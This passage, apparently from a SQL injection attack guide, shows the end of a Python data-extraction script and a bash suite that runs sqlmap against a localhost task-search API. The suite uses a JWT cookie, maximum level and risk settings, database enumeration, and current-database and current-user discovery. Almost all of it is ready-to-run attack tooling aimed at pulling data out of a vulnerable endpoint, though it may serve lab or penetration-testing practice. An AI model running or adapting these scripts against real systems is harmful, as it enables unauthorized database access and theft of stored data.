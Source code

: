```python
        extractor = SQLDataExtractor(
            BASE_URL, 
            token, 
            "/api/tasks/search", 
            "query"
        )
        
        # Perform comprehensive extraction
        results = extractor.comprehensive_extraction()
        
        # Save results
        with open('sql_injection_results.json', 'w') as f:
            json.dump(results, f, indent=2, default=str)
        
        print(f"\n=== Extraction Complete ===")
        print(f"Results saved to sql_injection_results.json")
    else:
        print("Authentication failed")
```

#### Step 2.2: Automated SQLMap Integration

```bash
#!/bin/bash
# Professional SQLMap Testing Suite

echo "=== SQLMap Professional Testing Suite ==="

# Configuration
TARGET_URL="http://localhost:3000/api/tasks/search?query=test"
TOKEN="your_jwt_token_here"
COOKIE="token=$TOKEN"
OUTPUT_DIR="./sqlmap_results"

# Create output directory
mkdir -p $OUTPUT_DIR

# Test 1: Basic vulnerability detection
echo "[1] Basic vulnerability detection..."
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
       --batch \
       --level=3 \
       --risk=3 \
       --random-agent \
       --output-dir="$OUTPUT_DIR" \
       --flush-session

# Test 2: Database enumeration
echo "[2] Database enumeration..."
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
       --dbs \
       --batch \
       --output-dir="$OUTPUT_DIR"

# Test 3: Current database and user
echo "[3] Current database and user information..."
sqlmap -u "$TARGET_URL" \
       --cookie="$COOKIE" \
       --current-db \
       --current-user \
       --batch \
       --output-dir="$OUTPUT_DIR"
```